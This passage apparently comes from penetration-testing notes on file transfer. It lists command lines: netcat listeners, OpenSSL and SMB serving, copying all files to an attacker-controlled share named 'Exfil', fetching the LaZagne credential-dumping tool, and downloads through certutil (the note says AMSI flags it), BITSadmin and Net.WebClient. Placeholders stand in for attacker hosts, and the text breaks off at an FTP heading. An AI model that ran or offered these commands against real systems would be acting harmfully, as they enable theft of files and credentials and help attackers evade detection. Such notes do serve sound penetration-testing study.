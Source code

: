 ```shell-session
$ nc -nlvp <PORT>
```
### OpenSSL
Refer #self-signed-certificates 
```shell-session
$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < <file>
```
# Windows Client
## [[net use]]
- SMB
```powershell
> net use n: \\IP\shareName /user:test password
> copy n:\nc.exe
```
## [[New-PSDrive]]
Map remote SMB server to system.
```Powershell
$Username = "Username" 
$Password = "Password" 
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($Username, $SecurePassword)

PS C:\> New-PSDrive -Name "<letter>" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME" [-Credential $Credential] [-Persist]
PS C:\> copy * Exfil:\
```
## Copy
```powershell
> copy \\IP[:PORT]\shareName\nc.exe
PS > copy-item "Target-File" \\IP[:PORT]\shareName\outputName
```
## Invoke-WebRequest
Alias: `iwr` and `wget`
```powershell
PS > wget <address> -o <outputFile>https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe
# ... Specify the UseBasicParsing parameter and try again.
PS > Invoke-WebRequest https://<ip>[:PORT]/file -UseBasicParsing
```
## Certutil
```powershell
PS > certutil -urlcache -f http://IP:PORT/file file_local
```
>**!! Note:** AMSI detects this as malicious
## BITSadmin
```powershell
PS > bitsadmin /transfer wcb /priority foreground http://<IP>[:<PORT>]/file <file-to-send>
```
## Net.WebClient
- HTTP(s)
```powershell
PS > (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
# without blocking the calling thread.
PS > (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
- FTP